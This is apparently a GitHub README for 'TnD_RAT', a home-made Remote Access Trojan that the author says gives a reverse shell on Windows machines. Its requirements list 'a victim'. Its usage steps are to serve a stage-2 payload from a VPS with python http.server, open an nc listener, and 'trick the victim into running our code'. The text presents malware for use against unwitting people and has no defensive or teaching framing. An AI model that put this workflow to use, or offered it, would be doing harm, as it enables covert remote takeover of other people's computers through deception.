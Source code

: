 # TnD_RAT
TnD_RAT is a basic Remote Access Trojan that I made from scratch. I've tested to obtain a reverse shell on a Windows machine using it.

## Requirements
* A virtual private server.
* A terminal to run ssh (preferably LINUX).
* A victim.
* My RAT code. 😉😉

## Usage
* Start the server.
* Connect to the server using the RSA id.
* Navigate to the directory where the RSA id is stored.
* Then run the following command to ssh into the server.
```bash
  ssh -i id_rsa <username>@IP_Address
```
* After connecting to the server, start a python server in the folder containing stage2 payload.
```bash 
python3 -m http.server
```
* Open another terminal.
* SSH into the server again using this terminal by running the above ssh command.
* Set up a listener by using the following command.
```bash 
nc -nlvp <PORT NUMBER>
```
* Now, trick the victim into running our code on his device. (Make sure that the victim is connected to the internet.)

* Woila!!!  You got a reverse shell into the victim's device. 

